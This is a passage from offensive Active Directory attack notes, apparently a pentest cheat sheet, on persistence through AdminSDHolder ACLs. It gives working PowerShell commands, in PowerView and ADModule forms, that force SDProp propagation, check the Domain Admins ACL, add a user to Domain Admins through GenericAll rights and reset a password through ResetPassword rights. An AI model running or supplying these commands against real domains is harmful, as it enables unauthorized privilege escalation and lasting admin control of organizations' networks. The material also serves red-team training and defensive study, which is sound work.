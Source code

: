 > **Note**: Other interesing permissions for a user to the AdminSDHolder:
>
> `ResetPassword`, `WriteMembers`.

After 60 minutes the ACL will be propagated automatically to the domain.

It can be also posible to propagate it manually with `Invoke-SDPropatagor.ps1`

```powershell
$sess = New-PSSession -ComputerName dc01.corp.local
Invoke-Command -FilePath .\Invoke-SDPropagator.ps1 -Session $sess
Enter-PSSession -Session $sess

And on the DC:
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

To check the Domain Admin Permissions as normal user:

* PowerView:
```powershell
Get-ObjectACL -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'user1'}
```

* ADModule:
```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=corp,DC=local').Access | ?{$_.IdentityReference -match 'user1'}
```

> **Note**: `GenericAll` means that has FullControl to an object.

Finally we just need to abuse it.

# ACL for Persistence

## Abusing FullControl ACL

* PowerView:
```powershell
Add-NetGroupUser -UserName user2 -GroupName "Domain Admins" -Domain corp.local
```

* ADModule:
```powershell
Add-ADGroupMember -Identity 'Domain Admins' -Members user2 -Verbose
```

## Abusing ResetPassword ACL

* PowerView:
```powershell
Set-DomainUserPassword -Identity user2 -AccountPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force) -Verbose
```
* ADModule:
```powershell
Set-ADACcountPassword -Identity user2 -NewPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force) -Verbose
```
# ACLs Rights Abuse
